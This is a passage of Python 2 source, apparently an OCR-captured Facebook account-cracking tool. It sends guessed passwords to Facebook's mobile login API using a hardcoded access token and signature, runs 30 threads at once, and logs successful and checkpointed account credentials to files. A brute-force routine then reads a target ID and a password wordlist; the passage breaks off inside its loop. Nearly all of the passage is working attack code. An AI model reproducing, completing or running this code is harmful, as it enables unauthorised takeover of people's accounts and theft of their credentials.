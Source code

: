 															cekpoint.append(user+pass6)
														else:
															pass7 = 'Pakistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92m[DONE] \x1b[1;92m ' + user  + ' \x1b[1;36;40m|\x1b[1;92m ' + pass7 + ' ⚡ ' + b['name']
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;36;40m[CHECKPOINT] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass7 + ' ⚡ ' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;96m....'
	print "\033[1;32;40m[+] Total OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;96m[\033[1;97mExit\033[1;96m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')
            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email
            print '\x1b[1;91m[+] \x1b[1;92mTotal\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)